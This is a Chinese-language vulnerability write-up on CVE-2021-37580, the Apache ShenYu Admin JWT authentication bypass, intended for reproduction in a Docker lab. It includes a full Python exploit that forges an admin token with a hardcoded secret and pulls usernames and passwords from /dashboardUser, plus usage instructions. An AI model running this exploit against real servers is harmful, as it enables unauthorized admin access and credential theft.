

# CVE-2021-37580 Apache ShenYu身份验证绕过漏洞

Apache ShenYu Admin爆出身份验证绕过漏洞，攻击者可通过该漏洞绕过JSON Web Token (JWT)安全认证，直接进入系统后台。 Apache ShenYu 是应用于所有微服务场景的，可扩展、高性能、响应式的 API 网关解决方案。

Apache ShenYu Admin 存在身份验证绕过漏洞。 ShenyuAdminBootstrap 中 JWT 的错误使用允许攻击者绕过身份验证，攻击者可通过该漏洞直接进入系统后台。

## 影响版本

Apache ShenYu 2.3.0

Apache ShenYu 2.4.0

## 复现

### JWT是什么

参考 http://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html

JWT 的三个部分依次如下。三部分由`.`

> - Header（头部）
> - Payload（负载）
> - Signature（签名）

类似这个样子 `Header.Payload.Signature`

### 验证

>  可以使用这个环境 `docker pull vulfocus/apache_shenyu-ce_2021_37580:latest`

>  也可以通过这个  http://vulfocus.fofa.so/  进行测试。


验证EXP，来自https://github.com/Liang2580/CVE-2021-37580/blob/main/CVE-2021-37580.py

需要安装依赖

```bash
pip install pyjwt
pip install requests
```


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
##pip install Pyjwt

import requests
import re
import time
from jwt import PyJWT


def generateToken():
    headers = {
        "alg": "HS256",
        "typ": "JWT"
    }
    salt = "2095132720951327"
    exp = int(time.time())
    payload = {
        "userName": 'admin',
        "exp": exp
    }
    token = PyJWT().encode(payload=payload, key=salt,algorithm='HS256', headers=headers)
    return token


if __name__ == "__main__":
    import sys
    try:
        url=sys.argv[1]
    except:
        print("Usage: %s http://www.baidu.com")
        exit(0)
    if isinstance(url,str):
        url1 = url + '/dashboardUser'
        headers = {
            'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:93.0) Gecko/20100101 Firefox/93.0',
            'X-Access-Token': generateToken()
        }
        try:
            response = requests.get(url1, headers=headers, verify=False, timeout=3).json()
            print(response)
        except:
            print("没有该漏洞")
        
```

假设上面代码的文件叫 `CVE-2021-37580.py`，使用方法为`python CVE-2021-37580.py http://1.1.1.1`



效果就是这个样子，可以获取到用户名和密码。


## 参考

1. https://nosec.org/home/detail/4906.html
2. https://github.com/Liang2580/CVE-2021-37580/

